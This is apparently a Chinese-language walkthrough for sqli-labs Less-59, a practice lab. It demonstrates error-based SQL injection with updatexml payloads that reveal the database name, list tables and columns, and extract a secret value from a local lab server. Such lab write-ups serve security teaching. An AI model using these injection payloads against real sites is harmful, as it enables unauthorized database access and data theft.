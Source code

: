 ```yaml
---
title: Less - 59
date: 2023-03-24T19:37:32Z
lastmod: 2023-03-24T19:48:39Z
---
```


# Less - 59

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1'
```

​![image](assets/image-20230324194107-lo2os1n.png)​

根据错误显示判断这里为数字型注入。因为有完整的错误显示，所以这里我们使用报错注入攻击

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230324194211-8h6hct2.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​​![image](assets/image-20230324194556-38bczej.png)​​

---

## 4、查看bnthd9a29e表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='bnthd9a29e'),0x7e),1)--+
```

​![image](assets/image-20230324194642-r9grxlu.png)​

---

## 5、查看secret_1Y9H字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(secret_1Y9H) from challenges.bnthd9a29e),0x7e),1)--+
```

​![image](assets/image-20230324194813-ox23jc7.png)​

​![image](assets/image-20230324194839-7kxnnhq.png)​
